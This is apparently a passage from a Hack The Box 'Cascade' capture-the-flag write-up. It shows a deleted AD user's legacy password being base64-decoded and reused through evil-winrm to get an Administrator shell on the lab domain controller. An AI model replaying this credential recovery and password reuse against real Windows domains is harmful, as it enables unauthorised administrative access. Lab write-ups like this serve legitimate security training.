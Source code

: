 ```bash
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
{: .nolineno}
{: .nolineno}

I got this `cascadeLegacyPwd`   : `YmFDVDNyMWFOMDBkbGVz` so lets decode this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```
{: .nolineno}
{: .nolineno}

I guess this user TempAdmin may be related to Administrator so I tried netexec to check for it→

![Untitled](Cascade/Untitled%2010.png)

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles           
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
CASC-DC1
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is CF98-2F06
C:.
|   wds_current_setup.exe
|
+---Contacts
+---Desktop
|       root.txt
|
```